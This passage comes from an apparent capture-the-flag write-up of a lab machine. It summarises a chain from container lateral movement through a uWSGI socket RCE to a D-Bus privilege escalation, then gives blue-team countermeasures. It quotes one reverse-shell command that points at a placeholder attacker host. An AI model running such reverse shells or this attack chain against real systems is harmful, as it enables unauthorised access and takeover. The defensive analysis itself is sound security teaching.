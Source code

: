 #### **4. Container/Proxy Enumeration → Lateral Movement**

* **Technique**: Enumerated `dockerd` / `docker-proxy` processes to find container IPs (`172.18.0.4/5`), SCP/SSH into container with retrieved key.
* **Lesson**: Exposed docker-proxy bindings and reachable container IPs enable moving from host → container; container networking must be isolated.

#### **5. uWSGI Unix-Socket RCE → www-data Shell**

* **Technique**: Deployed `uwsgi` exploit against `uwsgi.socket` to execute reverse shell (`bash -i >& /dev/tcp/ATT/7777`) and obtain `www-data`.
* **Lesson**: Unprotected sockets and vulnerable service deployments (uWSGI) are trivial RCE vectors if file/socket perms are weak.

#### **6. D-Bus IPC Misconfiguration → Privilege Escalation to root**

* **Technique**: Found `/etc/dbus-1/system.d/htb.oouch.Block.conf` allowing `www-data` to call `htb.oouch.Block`; sent crafted `dbus-send` payload to execute commands as root (mkfifo / shell → root).
* **Lesson**: Over-permissive D-Bus policies or insecure IPC interfaces let low-privilege users trigger privileged actions — critical attack point.

---

### Reflection

* **Chained weaknesses**: public info → OAuth/app-registration → API secret leak → container access → service exploit → IPC misconfig = full compromise.
* **Human + config attack surface**: contact page + lax app registration were as critical as exploitable sockets.
* **Attack economy**: one small misconfig (redirect validation / API auth / dbus policy) enabled complete takeover.

---

### Redemption (Blue Team Recommendations)

| Attack Phase                 | Defensive Countermeasures                                                                                                                                               |
| ---------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Recon / Public Files**     | - Remove sensitive files from public FTP/web. <br> - DLP/scan repos & webroots for config/credentials. <br> - Harden FTP (disable anonymous).                           |
| **OAuth / App Registration** | - Enforce strict Redirect URI validation and PKCE for public clients. <br> - Require admin approval for app registration. <br> - Limit `/oauth/authorize` to POST+CSRF. |
| **API Secret Exposure**      | - Never return private keys via API. <br> - Enforce RBAC, short-lived secrets, secret vaults and key rotation. <br> - Audit/alert on `/api/get_ssh`-like endpoints.     |
| **Container Exposure**       | - Don’t bind docker-proxy to 0.0.0.0; use internal networks. <br> - Firewall host→container traffic. <br> - Don’t run SSH inside containers exposed to host network.    |
| **uWSGI / Socket Hardening** | - Restrict socket file permissions and run services non-root. <br> - Keep frameworks/containers patched; scan for known uWSGI issues.                                   |
| **D-Bus / IPC Policies**     | - Tighten D-Bus policy files: restrict which users can `Send`/`Own`. <br> - Validate inputs on IPC methods and run privileged services under dedicated accounts.        |
| **C2 / Shell Detection**     | - Egress filtering, IDS signatures for reverse shells, monitor nc/tcp egress, alert on unusual listeners and long-lived outbound connections.                           |

---
